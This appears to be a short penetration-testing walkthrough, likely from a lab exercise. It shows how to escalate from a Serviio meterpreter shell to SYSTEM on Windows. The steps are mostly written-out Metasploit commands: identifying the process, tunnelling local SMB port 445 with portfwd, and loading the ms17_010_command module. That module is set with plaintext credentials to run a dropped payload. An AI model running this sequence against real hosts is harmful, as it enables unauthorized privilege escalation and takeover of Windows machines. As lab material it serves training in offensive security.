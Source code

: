 Use msfconsole’s portfwd command in the serviio exploit shell to access Windows SMB ipc$ share listening on 127.0.0.1:445

Retrieve the current process id of your serviio meterpreter shell.

```
getpid
```

Compare that to the process list to determine the name of the current
running meterpreter.exe from the process list.  The .exe should be running
out of the C:\ Progra ~1\ Serviio\bin\ directory.
```
ps
```

Add a -L equivalent using meterpreter.
```
portfwd add -L 127.0.0.1 -l 4450 -r 127.0.0.1 -p 445
```

Background the current session , we will be using the same payload and payload handler to catch the next callback.
```
background
```

Specify the exploit to use.
```
use auxiliary/admin/smb/ms17_010_command
```

Leverage the portfwd -L forward tunnel through meterpreter payload.
```
set RHOSTS 127.0.0.1
```

```
set RPORT 4450
```

Specify the operating system credentials.
```
set SMBUser dory
```

```
set SMBPass bLu3FisH
```

Specify the serviio payload that we want to have run as administrator/system.  We are going to shorten "Program Files" to progra ~1 to avoid any issues parsing  the command.  The payload mgOhS.exe , will be randomly generated when you originally exploit on. 
```
set command "C:\Progra~1\ Serviio\bin\mgOhS.exe"
```

Double -check everything.
```
show options
```
